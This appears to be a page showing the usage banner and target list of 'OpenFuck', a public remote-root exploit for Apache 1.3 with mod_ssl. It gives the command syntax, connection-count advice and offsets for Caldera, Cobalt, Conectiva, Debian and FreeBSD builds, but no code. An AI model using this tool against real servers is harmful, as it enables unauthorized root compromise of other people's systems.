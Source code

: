 Output

```bash
./OpenFuck                    

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./OpenFuckV2 target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
        0x00 - Caldera OpenLinux (apache-1.3.26)
        0x01 - Cobalt Sun 6.0 (apache-1.3.12)
        0x02 - Cobalt Sun 6.0 (apache-1.3.20)
        0x03 - Cobalt Sun x (apache-1.3.26)
        0x04 - Cobalt Sun x Fixed2 (apache-1.3.26)
        0x05 - Conectiva 4 (apache-1.3.6)
        0x06 - Conectiva 4.1 (apache-1.3.9)
        0x07 - Conectiva 6 (apache-1.3.14)
        0x08 - Conectiva 7 (apache-1.3.12)
        0x09 - Conectiva 7 (apache-1.3.19)
        0x0a - Conectiva 7/8 (apache-1.3.26)
        0x0b - Conectiva 8 (apache-1.3.22)
        0x0c - Debian GNU Linux 2.2 Potato (apache_1.3.9-14.1)
        0x0d - Debian GNU Linux (apache_1.3.19-1)
        0x0e - Debian GNU Linux (apache_1.3.22-2)
        0x0f - Debian GNU Linux (apache-1.3.22-2.1)
        0x10 - Debian GNU Linux (apache-1.3.22-5)
        0x11 - Debian GNU Linux (apache_1.3.23-1)
        0x12 - Debian GNU Linux (apache_1.3.24-2.1)
        0x13 - Debian Linux GNU Linux 2 (apache_1.3.24-2.1)
        0x14 - Debian GNU Linux (apache_1.3.24-3)
        0x15 - Debian GNU Linux (apache-1.3.26-1)
        0x16 - Debian GNU Linux 3.0 Woody (apache-1.3.26-1)
        0x17 - Debian GNU Linux (apache-1.3.27)
        0x18 - FreeBSD (apache-1.3.9)
        0x19 - FreeBSD (apache-1.3.11)
        0x1a - FreeBSD (apache-1.3.12.1.40)
        0x1b - FreeBSD (apache-1.3.12.1.40)
        0x1c - FreeBSD (apache-1.3.12.1.40)
        0x1d - FreeBSD (apache-1.3.12.1.40_1)
        0x1e - FreeBSD (apache-1.3.12)
        0x1f - FreeBSD (apache-1.3.14)
        0x20 - FreeBSD (apache-1.3.14)
        0x21 - FreeBSD (apache-1.3.14)
        0x22 - FreeBSD (apache-1.3.14)
        0x23 - FreeBSD (apache-1.3.14)
        0x24 - FreeBSD (apache-1.3.17_1)
        0x25 - FreeBSD (apache-1.3.19)
        0x26 - FreeBSD (apache-1.3.19_1)
        0x27 - FreeBSD (apache-1.3.20)
```